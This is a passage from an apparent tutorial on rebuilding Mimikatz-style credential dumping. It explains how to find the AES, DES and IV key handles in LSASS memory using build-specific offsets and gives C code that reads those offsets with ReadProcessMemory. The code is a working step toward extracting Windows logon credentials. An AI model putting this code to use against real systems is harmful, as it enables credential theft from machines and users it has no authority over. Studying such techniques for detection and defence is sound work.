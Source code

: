 The blue box represents the address in memory that our pattern searching function is going to return.  We need to write code that takes us from the blue box, up to the red boxes.  Thankfully Mimikatz has helped out with this process as well!

The pattern search address simply provides a reliable place within close range of both our handles, that we can then apply another offset to.

[Mimkatz File](https://github.com/gentilkiwi/mimikatz/blob/152b208916c27d7d1fc32d10e64879721c4d06af/mimikatz/modules/sekurlsa/crypto/kuhl_m_sekurlsa_nt6.c#L9)
![mim](attachments/Pasted%20image%2020250903212639.png)
These are build specific, just like the pattern bytes.  One hugely important misunderstanding I had when working through this is that **the offset listed above, takes you to a relative offset to the key.  This does NOT take you to the key itself!**

Now all that's left is to retrieve these handles:

First we can make some definitions for the AES,DES, and IV offsets, and similar to the relative offsets we found for the LogonSessionList, more int32_t since relative offsets are stored in 32 bit pointers.
```c
#define IVOffset 67 //67
#define AESKeyOffset 16//+16
#define DESKeyOffset 89 //-89

	int32_t hAesKeyOffset = 0; //what took me forever to realize is that this offset in mimikatz is not the KEY, its a relative offset to the KEY.
	int32_t hDesKeyOffset = 0;
	int32_t IVRelativeOffset = 0;
```

Now we need to read all the relative offsets to the key and store them in a place where we can pull the keys down later:

```c
size_t written = 0;
//retr offset from pattern to pointer to key handle
if(!ReadProcessMemory(hTarget, ((BYTE*)pKeyBase + AESKeyOffset), &hAesKeyOffset, sizeof(int32_t), &written)) {
	printf("Could not retr AES Offset to BCRYPT_KEY_HANDLE");
	return;
}
if (!ReadProcessMemory(hTarget, ((BYTE*)pKeyBase - DESKeyOffset), &hDesKeyOffset, sizeof(int32_t), &written)) {
	printf("Could not retr DES Offset to BCRYPT_KEY_HANDLE");
	return;
}
if (!ReadProcessMemory(hTarget, ((BYTE*)pKeyBase + IVOffset), &IVRelativeOffset, sizeof(int32_t), &written)) {
	printf("Could not retr DES Offset to BCRYPT_KEY_HANDLE");
	return;
}
```
